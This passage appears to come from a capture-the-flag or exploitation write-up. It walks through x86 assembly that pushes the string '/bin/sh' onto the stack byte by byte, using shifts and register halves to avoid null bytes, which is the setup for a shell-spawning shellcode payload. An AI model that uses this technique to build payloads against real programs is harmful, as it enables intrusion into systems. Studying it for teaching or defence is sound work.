 
We need to shift `0x00000068` so that we can pass a `32` bit data. 


We'll need to shift `0x00000068` to `0x00680000`.


To do that we'll use the `shl` instruction `16` times. 


I used `.rept` and `.endr` labels from `x86`.


```asm
.rept {num_shl}
shl ebx 
.endr 
```


We've now set up `0`,`h`.


We need pass the pointer to `'0'`,`'h'`.


```asm
push ebx 
nop
```

We'll need to do the same thing for the rest of the characters `'s'`, `'/'`, `'n'`, `'i'`, `'b'`, `'/'`. 


Here's the asm for `'s'` and `'/'`. 


I used `bh` because we need our `s` right after the NULL byte.


We'll pass the pointer again. 


```asm
mov bh, 0x73
mov bl, 0x2f 
push ebx 
nop
```

Do the same thing for `'n'`, `'i'`, `'b'`, `'/'`.


```asm 
mov bh, 0x6e
mov bl, 0x69
.rept {num_shl}
shl ebx
.endr 
mov bh, 0x62 
mov bl, 0x2f 
push ebx 
nop
mov ebx, esp 
```
